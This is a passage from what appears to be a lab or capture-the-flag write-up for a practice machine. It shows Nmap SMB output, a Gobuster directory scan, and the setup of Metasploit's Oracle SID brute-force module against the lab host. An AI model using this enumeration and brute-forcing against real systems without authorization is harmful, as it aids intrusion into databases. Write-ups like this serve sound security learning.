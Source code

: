 | smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-06T14:51:29
|_  start_date: 2019-11-06T14:00:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3066.66 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}
root@kali:~# gobuster dir -u http://10.10.10.82/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.aspx -s '200,204,301,302,403'
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.82/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,aspx
[+] Timeout:        10s
===============================================================
2019/11/06 16:54:45 Starting gobuster
===============================================================
===============================================================
2019/11/06 18:05:09 Finished
===============================================================
{% endhighlight %}

### 2. Getting User

Sounds we have nothing interesting on port 80 HTTP.<br>
Then, try to take a look at Oracle TNS listener.<br>
At first, try to get SIDs.<br>
<br>
<em>The Oracle System ID (SID) is used to uniquely identify a particular database on a system. For this reason, one cannot have more than one database with the same SID on a computer system.</em>
{% highlight shell %}
msf5 auxiliary(admin/oracle/sid_brute) > use auxiliary/admin/oracle/sid_brute 
msf5 auxiliary(admin/oracle/sid_brute) > set rhost 10.10.10.82
rhost => 10.10.10.82
msf5 auxiliary(admin/oracle/sid_brute) > show options

Module options (auxiliary/admin/oracle/sid_brute):

   Name     Current Setting                                         Required  Description
   ----     ---------------                                         --------  -----------
   RHOSTS   10.10.10.82                                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    1521                                                    yes       The target port (TCP)